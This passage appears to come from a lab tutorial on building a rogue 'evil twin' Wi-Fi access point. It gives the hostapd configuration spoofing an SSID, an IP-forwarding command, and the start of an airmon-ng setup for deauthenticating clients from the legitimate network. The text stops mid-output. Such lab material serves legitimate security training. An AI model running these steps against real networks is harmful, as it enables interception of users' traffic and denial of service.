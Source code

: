 wlan1: flags=4099&lt;UP,BROADCAST,MULTICAST&gt;  mtu 1500
        inet 192.168.0.1  netmask 255.255.255.0  broadcast 192.168.0.255
        ether 02:00:00:00:03:00  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
</code></pre>
<p>Additionally, we need to ensure that IP forwarding is enabled on the machine to allow proper routing of traffic between the fake access point and the internet. We can do this by running:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo sh -c 'echo 1 &gt; /proc/sys/net/ipv4/ip_forward'
</code></pre>
<hr/>
<h3>4. Setting up our Access Point</h3>
<p>To set up our rogue access point, we use the following configuration file and save it as hostapd.conf:</p>
<pre><code class="language-conf">interface=wlan1
driver=nl80211
ssid=HTB-Guest
hw_mode=g
channel=1
auth_algs=1
bssid=6A:48:AC:B4:EF:05
</code></pre>
<p>Once the configuration file is ready, we launch the rogue access point using hostapd:</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd hostapd.conf 

rfkill: Cannot open RFKILL control device
wlan0: interface state UNINITIALIZED-&gt;ENABLED
wlan0: AP-ENABLED 
</code></pre>
<hr/>
<h3>5. Denying Service</h3>
<p>Initially, we can wait for clients to connect to our rogue access point (AP) naturally. However, if no connections occur after a reasonable amount of time, we can forcefully encourage clients to connect by performing a deauthentication attack against the legitimate AP. This attack disconnects clients from the legitimate network, making them more likely to connect to our rogue AP.</p>
<p>We begin by enabling monitor mode on the wlan0 interface using airmon-ng. This will put wlan0 into monitor mode, typically renaming it to wlan0mon.</p>
<pre><code class="language-shell-session">[!bash!]$ airmon-ng start wlan0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    178 avahi-daemon
    194 wpa_supplicant
    198 avahi-daemon
    205 NetworkManager
